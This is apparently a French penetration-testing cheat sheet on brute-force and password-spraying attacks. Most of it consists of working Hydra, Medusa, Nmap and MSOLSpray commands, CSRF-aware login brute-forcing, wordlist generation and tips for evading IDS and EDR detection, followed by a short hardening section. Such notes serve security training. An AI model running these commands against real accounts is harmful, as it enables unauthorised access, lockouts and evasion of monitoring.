

Le processus d'attaque par brute-force suit généralement une méthodologie structurée allant de la collecte d'informations à l'exploitation des accès.



## Principes Fondamentaux du Brute-Forcing

Le **brute-force** consiste à tester systématiquement des combinaisons d'identifiants pour obtenir un accès non autorisé.

### Types d'attaques
* **Brute Force classique** : Test exhaustif de toutes les combinaisons possibles.
* **Attaque par dictionnaire** : Utilisation d'une liste de mots de passe probables.
* **Attaque hybride** : Combinaison de brute-force et dictionnaire.
* **Password Spraying** : Test d'un mot de passe unique sur une liste étendue de comptes pour contourner les politiques de verrouillage.

### Facteurs de réussite
* Politique de mot de passe (complexité, longueur).
* Mécanismes de verrouillage de compte (Account Lockout).
* Temps de réponse du serveur.
* Présence de CAPTCHA ou de systèmes de détection (EDR/SIEM).

> [!warning] Attention au verrouillage de compte (Account Lockout)
> Le déclenchement d'un verrouillage de compte lors d'une attaque par brute-force peut entraîner un déni de service pour l'utilisateur légitime et alerter les administrateurs.

> [!tip] Importance de l'énumération
> Une phase d'énumération préalable rigoureuse est nécessaire pour réduire la taille des wordlists et minimiser le volume de requêtes, réduisant ainsi le risque de détection.

## Analyse des logs pour identifier les comptes valides avant attaque

Avant toute tentative, l'analyse des logs (si accès obtenu via une autre vulnérabilité) ou des réponses serveurs permet de valider l'existence des comptes.

```bash
# Analyse des logs d'authentification pour identifier les utilisateurs actifs
grep "Accepted password" /var/log/auth.log | awk '{print $9}' | sort | uniq

# Identification des comptes via énumération web (ex: réponses différentes 200 vs 403)
curl -s -I http://target.com/login | grep "Set-Cookie"
```

## Utilisation de Nmap pour le brute-force (NSE)

Les scripts Nmap sont discrets et intégrés au flux de reconnaissance.

```bash
# Brute-force SSH
nmap -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=pass.txt <IP>

# Brute-force HTTP
nmap -p 80 --script http-brute --script-args http-brute.hostname=target.com <IP>
```

## Techniques de Password Spraying avancées

Le **Password Spraying** cible un mot de passe commun sur une large liste d'utilisateurs pour éviter le verrouillage. Voir notes liées : **Password Attacks**.

```bash
# Utilisation de MSOLSpray pour O365
./MSOLSpray.ps1 -UserList users.txt -Password "Password123!" -Tenant "company.onmicrosoft.com"

# Utilisation de o365enum pour valider les comptes avant spraying
python3 o365enum.py -u users.txt
```

## Gestion du bruit réseau (IDS/IPS evasion)

Pour contourner les systèmes de détection, il est nécessaire de réduire la fréquence des requêtes et de varier les sources.

* **Jitter** : Ajouter un délai aléatoire entre les requêtes.
* **IP Rotation** : Utiliser des proxies ou des VPN pour distribuer la charge.

```bash
# Exemple de temporisation avec Hydra (délai de 5 secondes entre tentatives)
hydra -L users.txt -P pass.txt -t 1 -w 5 ssh://<IP>
```

> [!danger] Risque de détection par les solutions EDR/SIEM
> Un volume élevé de requêtes est facilement détectable. L'utilisation de techniques de **low-and-slow** est indispensable en environnement surveillé.

## Gestion des sessions et cookies lors d'attaques web

Lors d'attaques sur des formulaires web, la gestion des jetons CSRF et des cookies de session est critique.

| Composant | Action |
| :--- | :--- |
| **CSRF Token** | Extraire le token via `curl` ou `Burp Suite` avant chaque requête |
| **Cookies** | Maintenir la session via `--cookie-jar` |

```bash
# Exemple d'extraction de token CSRF avant brute-force
TOKEN=$(curl -s -c cookies.txt http://target.com/login | grep "csrf_token" | cut -d'"' -f4)
curl -X POST -d "username=admin&password=password&token=$TOKEN" -b cookies.txt http://target.com/login
```

## Sécurité des Mots de Passe

### Erreurs courantes
* Utilisation de mots de passe faibles ou par défaut.
* Réutilisation de mots de passe sur plusieurs services.
* Absence d'authentification multi-facteur (**MFA**).

### Meilleures pratiques
* Utilisation de gestionnaires de mots de passe.
* Génération de mots de passe complexes (20+ caractères).
* Désactivation des comptes par défaut.

## Brute-Forcing avec Hydra

**Hydra** est un outil modulaire supportant de nombreux protocoles.

### Options principales
| Option | Description |
| :--- | :--- |
| **-L** | Liste de noms d'utilisateur |
| **-P** | Liste de mots de passe |
| **-t** | Nombre de threads parallèles |
| **-f** | Arrêt après le premier succès |
| **-vV** | Mode verbeux détaillé |
| **-s** | Port spécifique |
| **-I** | Mode interactif |

### Exemples d'utilisation
```bash
# Brute-force SSH
hydra -L users.txt -P pass.txt ssh://<IP> -t 4

# Brute-force FTP
hydra -L users.txt -P pass.txt ftp://<IP>

# Brute-force formulaire web
hydra -L users.txt -P pass.txt -f <IP> -s PORT http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid credentials"

# Authentification HTTP Basic
hydra -L users.txt -P pass.txt -f <IP> http-get /protected_page
```

> [!danger] Risque de détection
> Un volume élevé de requêtes est facilement détectable par les solutions **EDR** ou **SIEM**. Il est recommandé de limiter le nombre de threads (**-t**) et d'espacer les tentatives.

## Brute-Forcing avec Medusa

**Medusa** est une alternative rapide pour le brute-force parallèle.

### Options principales
| Option | Description |
| :--- | :--- |
| **-h** | Cible unique |
| **-H** | Liste d'hôtes |
| **-U** | Liste d'utilisateurs |
| **-P** | Liste de mots de passe |
| **-M** | Module de service (ssh, ftp, http) |
| **-t** | Threads |
| **-n** | Port spécifique |

### Exemples d'utilisation
```bash
# Brute-force SSH
medusa -h <IP> -U users.txt -P pass.txt -M ssh -t 4

# Brute-force FTP
medusa -h <IP> -U users.txt -P pass.txt -M ftp

# Brute-force login HTTP
medusa -h <IP> -U users.txt -P pass.txt -M http -m DIR:/login.php
```

## Génération de Wordlists

### Username Anarchy
```bash
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

### CUPP
```bash
sudo apt install cupp -y
cupp -i
```

### Filtrage de wordlist
```bash
grep -E '^.{8,}$' pass.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > pass-filtered.txt
```

## Défense et Mitigation

### Mesures de durcissement
* Activation du **2FA**.
* Limitation des tentatives de connexion.
* Utilisation de **fail2ban** pour le bannissement automatique d'IP.

```bash
# Installation et démarrage de fail2ban
sudo apt install fail2ban -y
sudo systemctl start fail2ban

# Désactivation de l'accès root SSH
sudo nano /etc/ssh/sshd_config
# Modifier PermitRootLogin no
sudo systemctl restart ssh
```

### Analyse des logs
```bash
cat /var/log/auth.log | grep "Failed password"
```

> [!note] Politique de verrouillage
> Il est impératif de tester les politiques de verrouillage de compte avant de lancer une attaque massive pour éviter de bloquer les accès légitimes.

## Workflow Optimal

1. **Reconnaissance OSINT** : Collecte d'informations sur la cible.
2. **Génération de wordlists** : Utilisation de **username-anarchy** et **cupp**.
3. **Attaque ciblée** : Utilisation de **hydra** ou **medusa**.
4. **Filtrage** : Traitement des résultats avec **grep**, **cut**, **sort**, **uniq**.
5. **Exploitation** : Pivoting et élévation de privilèges.
6. **Défense** : Mise en place de **2FA** et **fail2ban**.

**Liens associés** : Password Attacks, Enumeration, Network Security Auditing, OSINT.